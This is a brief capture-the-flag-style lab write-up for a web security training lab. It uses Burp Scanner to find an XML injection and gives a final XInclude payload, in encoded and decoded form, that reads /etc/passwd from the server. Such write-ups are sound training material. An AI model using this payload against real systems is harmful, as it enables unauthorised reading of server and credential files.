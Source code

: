 # Discovering vulnerabilities quickly with targeted scanning
# Objective
This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.\
Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it. 

# Solution
## Analysis
|![](Images/image.png)|
|:--:| 
| *Active scan results* |
| *Detection of XML injection* |

## Exploitation

|![](Images/image-1.png)|
|:--:| 
| *Exploitation of XML injection* |
![alt text](image.png)

Final payload:
```
Encoded: %3cczl%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2fczl%3e
Decoded: <czl xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></czl>
```
